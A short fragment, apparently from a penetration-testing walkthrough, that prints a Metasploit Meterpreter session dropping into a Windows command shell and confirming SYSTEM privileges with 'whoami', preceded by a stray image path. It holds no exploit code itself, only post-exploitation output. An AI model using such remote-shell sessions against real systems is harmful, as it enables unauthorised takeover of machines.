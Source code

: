 ```
meterpreter > shell
Process 3800 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


